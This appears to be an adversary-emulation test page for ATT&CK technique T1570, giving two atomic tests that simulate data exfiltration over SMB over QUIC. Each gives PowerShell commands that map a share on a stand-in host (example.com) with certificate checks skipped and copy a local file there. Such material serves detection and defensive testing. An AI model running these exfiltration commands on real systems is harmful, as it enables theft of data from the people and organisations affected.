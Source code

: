 ```yaml
---
tags: [T1570, atomic_test]
filename: "[[T1570 - Lateral Tool Transfer]]"
---
```

# T1570 - Lateral Tool Transfer

## Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)
Simulates an attacker exfiltrating data over SMB over QUIC using the New-SmbMapping command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** d8d13303-159e-4f33-89f4-9f07812d016f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-SmbMapping -RemotePath '#{remote_path}' -TransportType QUIC -SkipCertificateCheck
copy '#{local_file}' 'Z:\'
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)
Simulates an attacker exfiltrating data over SMB over QUIC using the NET USE command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** 183235ca-8e6c-422c-88c2-3aa28c4825d9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
NET USE * '#{remote_path}' /TRANSPORT:QUIC /SKIPCERTCHECK
copy '#{local_file}' '*:\'
```






<br/>
